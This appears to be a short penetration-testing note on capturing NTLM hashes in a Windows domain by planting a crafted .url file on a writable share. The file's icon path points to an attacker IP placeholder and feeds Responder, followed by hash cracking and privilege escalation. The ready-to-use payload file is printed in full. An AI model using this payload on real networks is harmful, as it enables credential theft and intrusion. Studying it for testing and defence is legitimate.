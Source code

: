 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as "@"
